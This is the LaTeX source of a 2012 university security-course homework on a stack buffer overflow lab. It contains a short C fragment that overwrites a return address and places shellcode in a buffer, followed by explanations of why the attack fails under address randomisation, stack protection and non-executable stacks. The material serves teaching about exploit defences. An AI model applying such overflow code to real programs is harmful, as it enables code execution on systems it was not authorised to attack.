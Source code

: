 \documentclass[12pt]{article}
\begin{document}
\title{CS4238 Homework 1}
\author{Laurence Putra Franslay (U096833E)}
\date{8th Oct 2012}
\maketitle

\section{Task 1}
Code added for exploit\\
\begin{verbatim}
	long buffer_start = 0xbffff174;
	long landing = buffer_start + 250;
	long* ptr = (long*)(buffer + 24);
	*ptr = landing;
	memcpy(buffer + sizeof(buffer) - sizeof(shellcode),
		 shellcode, sizeof(shellcode));
\end{verbatim}

\section{Task 2}
There is segmentation fault when address space randomization is turned on.\\

This is due to the fact that the address used by of the start of the stack is now randomized on each run, and no longer the same as previously found.\\

\section{Task 3}
Error message\\
\begin{verbatim}
*** stack smashing detected ***: ./stack terminated
\end{verbatim}

After the error message there's a backtrace of where the stack buffer overflow started, as well as the memory map of the program at that point in time.\\

This is as the stack guard prevents the stack from being overwritten.\\

\section{Task 4}
No. The program crashes with a segmentation fault.\\

This is as the shell code has been overflowed into the stack, and data in the stack is not allowed to be executed, hence the segfault\\
\enddocument
\end{document}
